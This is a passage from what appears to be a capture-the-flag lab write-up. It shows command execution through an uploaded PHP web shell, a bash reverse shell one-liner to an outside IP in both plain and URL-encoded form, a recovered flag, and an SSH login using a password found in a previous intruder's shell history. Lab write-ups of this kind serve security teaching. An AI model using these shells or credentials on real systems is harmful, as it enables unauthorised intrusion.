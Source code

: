 ```
http://10.10.55.153/cvs/shell.pdf.php?cmd=whoami
```

It works 

## Privilege Escalation
```
www-data

boom!
```

Now, I can proceed to create my own reverse shell. I use a [reverse shell generator](https://www.revshells.com) and create the following shell:
```
bash -c 'bash -i >& /dev/tcp/10.8.21.77/8888 0>&1'
```

The shell doesn't execute as expected, so I use a [URL encoder](https://www.urlencoder.org/) and convert the above shell into:

```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.8.21.77%2F8888%200%3E%261%27
```

Now everything works. I proceed to search through the directories. In /home/lachlan, I find the first flag.

**FLAG : thm{af7e46b68081d4025c5ce10851430617}**

##  Root  access

I proceed to search for traces left by the previous hacker by checking .bash_history

```
www-data@b2r:/home/lachlan$ cat .bash_history
cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history

```
I see that the password for the user, probably **lachlan**, has been changed, the same user where I found the first flag. I attempt to connect to the **lachlan** account via SSH using the previously mentioned password.

```console
$ ssh lachlan@10.10.55.153
lachlan@10.10.55.153's password: 
Permission denied, please try again.
lachlan@10.10.55.153's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 03 Apr 2025 01:40:44 PM UTC

  System load:  0.13              Processes:             125
  Usage of /:   25.8% of 9.78GB   Users logged in:       0
  Memory usage: 44%               IPv4 address for eth0: 10.10.55.153
  Swap usage:   0%


```